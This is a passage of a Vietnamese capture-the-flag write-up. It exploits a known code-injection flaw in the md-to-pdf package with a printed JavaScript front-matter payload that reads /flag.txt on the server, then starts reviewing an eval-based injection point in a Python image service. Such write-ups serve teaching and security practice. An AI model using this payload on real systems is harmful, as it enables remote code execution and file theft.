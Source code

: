 Ở `helpers/MDHelpers.js`:
```js
const { mdToPdf }    = require('md-to-pdf')
```

Và ở file `package.json` ta biết được version: `{md-to-pdf": "4.1.0"}`

Làm vài đường google ta tìm được RCE vulnerability của module *md-to-pdf*(CVE-2021–23639): https://github.com/simonhaenisch/md-to-pdf/issues/99

Ở comment ta nhặt được payload, edit payload để đọc file:
```
---js
{
    css: `body::before { content: "${require('fs').readFileSync('/flag.txt').join()}"; display: block }`,
}
---
```
Ở đây ta inject đoạn code được đọc dưới dạng code `nodejs` khi nằm trong tag `---js` từ đó đọc được file `/flag.txt`

Ta được đoạn ascii code của flag, convert sang text bằng python thôi
```python
a = [72,84,66,123,105,110,116,51,114,71,52,108,52,99,55,105,67,95,114,49,100,51,95,48,110,95,98,108,49,110,107,51,114,95,102,108,117,49,100,53,125]

for b in a:
	print(chr(b), end='')	
```
**flag**: `HTB{int3rG4l4c7iC_r1d3_0n_bl1nk3r_flu1d5}`

## Admidst Us

**Description**: Chall cho source code.

Nhảy vào ta thấy 1 website toàn ảnh, chẳng có mấy endpoint thú vị, review source code thôi.

Ở file `util.py`
```python
def make_alpha(data):
    color = data.get('background', [255,255,255])

    try:
        dec_img = base64.b64decode(data.get('image').encode())

        image = Image.open(BytesIO(dec_img)).convert('RGBA')
        img_bands = [band.convert('F') for band in image.split()]

# ...............

        new_bands = [
            ImageMath.eval(
                'convert((image - color) / alpha + color, "L")',
                image=img_bands[i],
                color=color[i],
                alpha=alpha
            )
            for i in range(3)
        ]

```
Đọc thấy hàm `eval()` là biết nguy hiểm chỗ này rồi, đặc biệt là tham số đầu vào `backgound`.

